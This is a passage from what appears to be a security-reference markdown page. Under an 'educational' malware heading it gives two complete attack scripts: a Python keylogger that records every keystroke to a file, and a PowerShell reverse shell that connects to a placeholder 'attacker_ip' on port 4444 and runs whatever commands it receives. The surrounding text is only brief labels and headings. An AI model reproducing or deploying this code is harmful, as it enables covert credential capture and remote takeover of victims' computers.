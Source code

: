 **Documentation**: APT malware analysis focusing on persistence and covert communication.
**Limitations**: APT malware is highly sophisticated; requires extensive analysis and threat intelligence.

## Malware Development and Testing (Educational)

### Basic Malware Concepts for Defense
```python
# Simple Keylogger (Educational - Python)
import pynput
from pynput.keyboard import Key, Listener

def on_press(key):
    try:
        with open("keylog.txt", "a") as f:
            f.write(str(key.char))
    except AttributeError:
        with open("keylog.txt", "a") as f:
            f.write(str(key))

def on_release(key):
    if key == Key.esc:
        return False

# Start keylogger
with Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
```

```powershell
# PowerShell Reverse Shell (Educational)
$client = New-Object System.Net.Sockets.TCPClient("attacker_ip",4444)
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535|%{0}
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i)
    $sendback = (iex $data 2>&1 | Out-String )
    $sendback2 = $sendback + "PS " + (pwd).Path + "> "
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
    $stream.Write($sendbyte,0,$sendbyte.Length)
    $stream.Flush()
}
$client.Close()
```

**Documentation**: Educational malware examples for understanding attack vectors and defensive measures.
**Limitations**: Examples are for educational purposes only; actual deployment is illegal and unethical.

## Malware Defense and Mitigation

